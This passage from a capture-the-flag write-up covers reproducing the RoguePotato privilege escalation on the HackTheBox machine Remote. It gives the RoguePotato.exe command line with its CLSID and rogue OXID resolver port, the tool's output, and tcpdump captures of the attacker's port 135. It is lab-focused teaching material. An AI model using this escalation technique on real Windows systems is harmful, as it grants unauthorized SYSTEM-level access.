I had already been working on this post when I watched Ippsec’s Remote video
where [he runs
RoguePotato](https://www.youtube.com/watch?v=iyYqgseKUPM&t=2415s). Since he
did the box without prep, he’s giving the exploit a shot without reading the
background, and (since he probably doesn’t want to spend a long time reading
while we watch), he tries to get it working by kind of guessing at the
commands and based on his understanding of the previous exploits.

He doesn’t stand up a local redirector or a local Oxid resolver, but starts
messing with the CLSID (which was something you had to do in JuicyPpotato). He
is above to give up and come back for a new video sometime after he’s had a
chance to read about the exploit, when, somehow, it works in a way that I
initially couldn’t explain or reproduce:

[![image-20200908092002942](https://0xdfimages.gitlab.io/img/image-20200908092002942.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20200908092002942.png)

### Trying to Reproduce

Trying to reproduce this, I killed `socat` and run the following command,
which is the same as his, replacing my IP for his and running `ping` instead
of the PowerShell encoded command:

    
    
    PS C:\programdata> .\RoguePotato.exe -r 10.10.14.9 -c "{B91D5831-B1BD-4608-8198-D72E155020F7}" -e "cmd.exe /c ping 10.10.14.9" -l 9999
    [+] Starting RoguePotato...
    [*] Creating Rogue OXID resolver thread
    [*] Creating Pipe Server thread..
    [*] Creating TriggerDCOM thread...
    [*] Listening on pipe \\.\pipe\RoguePotato\pipe\epmapper, waiting for client to connect
    [*] Calling CoGetInstanceFromIStorage with CLSID:{B91D5831-B1BD-4608-8198-D72E155020F7}
    [*] Starting RogueOxidResolver RPC Server listening on port 9999 ... 
    [*] IStoragetrigger written:102 bytes
    [-] Named pipe didn't received any connect request. Exiting ... 
    

This is the same output IppSec got back, but his also executed. I didn’t get
any ICMP at `tcpdump`.

I started a second `tcpdump` to listen in TCP 135 and ran again:

    
    
    root@kali# tcpdump -ni tun0 'port 135'
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    07:31:42.479528 IP 10.10.10.180.49734 > 10.10.14.9.135: Flags [SEW], seq 1988875522, win 64240, options [mss 1357,nop,wscale 8,nop,nop,sackOK], length 0
    07:31:42.479595 IP 10.10.14.9.135 > 10.10.10.180.49734: Flags [R.], seq 0, ack 1988875523, win 0, length 0
    07:31:43.003368 IP 10.10.10.180.49734 > 10.10.14.9.135: Flags [S], seq 1988875522, win 64240, options [mss 1357,nop,wscale 8,nop,nop,sackOK], length 0
    07:31:43.003490 IP 10.10.14.9.135 > 10.10.10.180.49734: Flags [R.], seq 0, ack 1, win 0, length 0
    07:31:43.518888 IP 10.10.10.180.49734 > 10.10.14.9.135: Flags [S], seq 1988875522, win 64240, options [mss 1357,nop,wscale 8,nop,nop,sackOK], length 0
    07:31:43.518916 IP 10.10.14.9.135 > 10.10.10.180.49734: Flags [R.], seq 0, ack 1, win 0, length 0
    